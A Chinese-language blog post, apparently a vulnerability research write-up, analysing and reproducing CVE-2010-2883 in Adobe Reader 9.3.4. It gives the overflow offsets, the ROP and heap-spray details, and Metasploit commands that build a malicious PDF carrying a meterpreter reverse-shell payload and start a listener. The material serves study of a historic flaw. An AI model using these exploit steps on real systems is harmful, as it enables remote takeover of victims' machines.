 ```yaml
---
layout:         post
title:          CVE-2010-2883分析 & 复现
author:         wooy0ung
tags:           msf
category:  	exploit
---
```



>[分析环境]  
>系统: Windows XP SP3  
>漏洞软件: Adobe Reader 9.3.4  
>注意: 在Win7 x64下从Reader打开msf.pdf会引起异常而退出。  
>说明: 这篇文算是《漏洞战争》上的补充吧, 有些细节作者没有讲明。
<!-- more -->


### 0x00 前期准备

安装 Adobe Reader 9 & PdfStreamDumper, 将CoolType.dll拖到IDA分析, 定位到漏洞点

![](/assets/img/exploit/2017-09-23-cve-2010-2883/0x00.png)

第一处脆弱点, strcat没对字符串长度进行检查, 导致栈溢出

![](/assets/img/exploit/2017-09-23-cve-2010-2883/0x01.png)

第二处脆弱点在0x0808B308, call [eax]导致可以构造任意call, 控制eip的指向


### 0x01 Dump TTF

生成恶意pdf

```
msf > use exploit/windows/fileformat/adobe_cooltype_sing
msf > set payload windows/meterpreter/reverse_tcp
msf > set lhost 192.168.2.63
msf > set lport 9000
msf > run
```

导入pdf, Search_For->TTF Fonts, 选中TTF数据右键->Save Decompressed Stream

![](/assets/img/exploit/2017-09-23-cve-2010-2883/0x02.png)

TableEntry结构

```
typedef struct_SING
{
        char    tag[4];
        ULONG   checkSum;
        ULONG   offset;
        ULONG   length;
} TableEntry;
```

Dump数据0x0EC处的SING字段标记SING表的表头

![](/assets/img/exploit/2017-09-23-cve-2010-2883/0x03.png)

偏移表头0x00C处表示SING表数据相对文件的偏移(0x000->0x11C)

![](/assets/img/exploit/2017-09-23-cve-2010-2883/0x04.png)

相对于SING表数据开始再偏移0x010(uniqueName)开始复制到栈上


### 0x02 调试

定位到strcat, 查看payload入栈的首地址

![](/assets/img/exploit/2017-09-23-cve-2010-2883/0x05.png)

此处数据与dump出来的一致, 确定payload在栈首地址0x0012E4D8

![](/assets/img/exploit/2017-09-23-cve-2010-2883/0x06.png)

注意这几处调用0x0803DEAF->0x08016C56->0x0801BB41->0x0808B308, 定位到call [eax]

![](/assets/img/exploit/2017-09-23-cve-2010-2883/0x07.png)

这时调用的是栈上0x0012E6D0存的一个地址, 0x0012E6D0-0x0012E4D8=0x1F8

![](/assets/img/exploit/2017-09-23-cve-2010-2883/0x08.png)

将偏移payload的0x1F8~0x1FC共4bytes修改成目的地址(此处为0x4A80CB38), 即可控制EIP跳转, 然后构造ROP

![](/assets/img/exploit/2017-09-23-cve-2010-2883/0x09.png)

偏移payload的0x008~0x00C修改成ROP指令地址, 0x00C~0x00F修改成0x0C0C0C0C

![](/assets/img/exploit/2017-09-23-cve-2010-2883/0x0a.png)

通过HeapSpray将shellcode弹到栈上

![](/assets/img/exploit/2017-09-23-cve-2010-2883/0x0b.png)

构造ROP, 依次调用CreateFileA->CreateFileMappingA->MapViewOfFile->memcpy将栈上的shellcode复制到有r-w-x权限的内存段


### 0x03 exploit

打开msf监听, F9直接运行

```
msf > use /exploit/mutil/handler
msf > set payload windows/meterpreter/reverse_tcp
msf > set lhost 192.168.2.63
msf > set lport 9000
msf > exploit -j
```

后门已经反弹回来

![](/assets/img/exploit/2017-09-23-cve-2010-2883/0x0c.png)

由于icucnv36.dll没有开启ASLR, 以上构造的ROP指令能绕过DEP、ASLR
